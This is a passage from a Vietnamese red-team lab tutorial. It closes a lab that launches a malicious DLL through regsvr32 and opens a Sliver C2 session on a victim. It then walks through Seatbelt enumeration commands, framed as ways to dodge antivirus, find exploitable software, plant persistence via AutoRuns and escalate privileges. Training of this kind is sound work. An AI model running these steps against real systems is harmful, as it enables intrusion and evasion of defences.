regsvr32 WET_BARIUM.dll


Phân tích đơn giản: regsvr32 là một chương trình có sẵn, hoàn toàn hợp lệ của Windows dùng để đăng ký các file thư viện DLL. Hacker lợi dụng chính công cụ hợp pháp này để khởi chạy mã độc ẩn giấu trong file DLL (kỹ thuật này gọi là Living-off-the-Land - Lấy mỡ nó rán nó).

Quay lại Terminal đang chạy Sliver, bạn sẽ thấy kết nối báo về. Gõ lệnh use kèm theo 2 ký tự đầu tiên của Session ID để thâm nhập vào phiên (ví dụ: use 22), gõ info để lấy thông tin máy tính nạn nhân, sau đó gõ exit để dọn dẹp.
**Tổng kết: Bạn đã nắm được cách thiên biến vạn hóa mã độc để vượt qua các rào chắn kỹ thuật. Vũ khí càng linh hoạt, bạn càng nguy hiểm!**

## Lab 2.6: Seatbelt
## Mục tiêu của chúng ta:

Sử dụng Seatbelt để hiểu rõ cấu hình và trạng thái của hệ thống Windows 10.

Chạy các lệnh kiểm tra đơn lẻ và kiểm tra theo nhóm để thu thập dữ liệu.

Sử dụng thông tin xác thực đã lấy cắp để quét cấu hình của một máy tính khác từ xa.

Bước 1: Khởi động Seatbelt

Công cụ Seatbelt đã được chuẩn bị sẵn trên máy Windows của bạn. Mặc định, khi chạy Seatbelt, nó sẽ in ra một bức ảnh ASCII nghệ thuật hình chiếc dây an toàn khá tốn diện tích. Chúng ta sẽ dùng cờ -q (quiet) để ẩn nó đi cho dễ nhìn.

Thực hành:

Tại cửa sổ Command Prompt, di chuyển vào thư mục chứa công cụ:

```bash
cd \Tools
```


Bước 2: Chạy các bài kiểm tra đơn lẻ (Single Checks)

Chúng ta có thể yêu cầu Seatbelt kiểm tra từng thành phần cụ thể trên hệ thống. Giả sử bạn muốn biết máy này đang xài phần mềm diệt virus nào, cài những phần mềm gì, hay đang mở cổng mạng nào.

Thực hành:

Kiểm tra phần mềm diệt virus (AntiVirus):

```bash
Seatbelt.exe -q AntiVirus
```


Kiểm tra các phần mềm đã được cài đặt trên máy:

```bash
Seatbelt.exe -q InstalledProducts
```


Kiểm tra các kết nối TCP đang mở:

```bash
Seatbelt.exe -q TcpConnections
```


Phân tích đơn giản:

AntiVirus: Giúp ta biết hệ thống đang dùng Windows Defender hay phần mềm nào khác, từ đó tìm cách lách qua.

InstalledProducts: Liệt kê các phần mềm. Trong thực tế, nếu tìm thấy một phần mềm cũ kỹ (như Icecast ở bài lab trước), đó chính là cơ hội để khai thác.

TcpConnections: Trả về danh sách các cổng đang mở. Điểm hay là nó thực hiện việc này bằng cách gọi trực tiếp API của Windows qua bộ nhớ RAM, thay vì chạy lệnh netstat truyền thống (vốn rất dễ bị các hệ thống giám sát phát hiện).

Bước 3: Quét tổng lực theo nhóm (Groups)

Thay vì gõ từng lệnh lẻ tẻ, Seatbelt cho phép chúng ta chạy một lúc hàng tá lệnh kiểm tra khác nhau bằng cách phân nhóm. Khá giống việc bạn bấm nút "Khám tổng quát" tại bệnh viện vậy.

Thực hành:

Chạy nhóm lệnh hệ thống (system):

```bash
Seatbelt.exe -q -group=system
```


Phân tích đơn giản:

-group=system: Cờ này sẽ kích hoạt gần 50 bài kiểm tra khác nhau, bao gồm: Lịch sử Audit, Các chương trình chạy cùng hệ thống (AutoRuns), Danh sách User/Group nội bộ, Tường lửa, Cấu hình UAC, v.v..

Đây là cách nhanh nhất để gom toàn bộ dữ liệu cấu hình hệ thống, sau đó mang về máy của mình (offline) để từ từ phân tích tìm điểm yếu. Ví dụ: Phân tích AutoRuns để cấy mã độc khởi động cùng Windows, hoặc LocalUsers để xem có tài khoản nào thú vị không.
**Tổng kết: Qua bài thực hành này, bạn đã nắm được cách sử dụng Seatbelt để "chụp X-quang" toàn diện một máy chủ Windows. Một khi đã hiểu rõ mục tiêu đang chạy gì, có lỗ hổng cấu hình nào, hành trình leo thang đặc quyền và xâm nhập sâu hơn của bạn sẽ trở nên dễ dàng và "chuẩn xác" hơn rất nhiều.**